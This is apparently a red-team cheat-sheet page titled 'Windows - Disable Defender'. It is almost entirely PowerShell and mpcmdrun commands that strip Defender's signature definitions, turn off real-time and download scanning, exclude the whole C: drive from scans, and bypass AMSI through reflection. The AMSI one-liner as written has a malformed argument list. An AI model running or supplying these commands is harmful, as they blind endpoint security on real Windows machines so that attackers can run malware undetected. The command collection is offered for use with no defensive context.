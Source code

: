 # Windows - Disable Defender

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

Disabling defender  and remove definitions with mpcmdrun.exe

```Set-MpPreference -DisableRealtimeMonitoring $true```

Disable Defender(causes alert on Desktop)(Can be run with psexec)

```Add-MpPreference -ExclusionPath "c:\"```

Add exclusion path to Defender

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonePublic,static').SetValue(,True)"
```

Turn off AMSI
